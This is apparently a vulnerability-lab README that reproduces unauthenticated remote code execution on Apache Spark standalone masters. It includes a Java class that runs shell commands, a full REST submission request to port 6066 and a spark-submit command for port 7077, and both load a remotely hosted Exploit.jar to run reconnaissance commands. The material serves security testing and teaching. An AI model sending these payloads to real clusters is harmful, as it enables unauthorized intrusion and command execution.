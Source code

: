 # Apache Spark Unauthorized Access Leads to Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Apache Spark is a cluster computing system that allows users to submit applications to the management node for cluster execution. If the management node has not enabled ACL (Access Control List), it becomes possible to execute arbitrary code in the cluster.

Reference links:

 - https://weibo.com/ttarticle/p/show?id=2309404187794313453016
 - https://xz.aliyun.com/t/2490

## Vulnerability Environment

Execute the following command to start an Apache Spark cluster in standalone mode, which includes one master and one slave:

```
docker compose up -d
```

After the environment starts, visit `http://your-ip:8080` to access the master's management page, and `http://your-ip:8081` to access the slave's management page.

## Vulnerability Reproduce

The essence of this vulnerability is that unauthorized users can submit an application to the management node, where this application is actually malicious code.

There are two ways to submit applications:

1. Using REST API
2. Using submissions gateway (integrated in port 7077)

The application can be written in Java or Python. Here's a simple example class (from reference link 1):

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

Compile it into a JAR file and host it on any HTTP or FTP server, for example: `https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`.

### Submitting Application via REST API

In standalone mode, the master starts an HTTP server on port 6066. We can submit a REST-formatted API request to this port:

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

Here, `spark.jars` is the compiled application, mainClass is the class to run, and appArgs are the parameters passed to the application.

![](1.png)

The response will contain a submissionId. You can then view the execution results by visiting `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`:

![](2.png)

Note: While the application is submitted to the master, the results are viewed in the slave that actually executes the application (default port 8081). In real-world scenarios, there might be multiple slaves.

### Using the Submissions Gateway

If port 6066 is inaccessible or has access controls, we can use the master's main port 7077 to submit applications.

This can be done using Apache Spark's built-in script `bin/spark-submit`:

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

If the master parameter you specify is a REST server, this script will first try to submit the application using the REST API; if it's not a REST server, it will fall back to using the submission gateway.

The results can be viewed in the same way as described above.
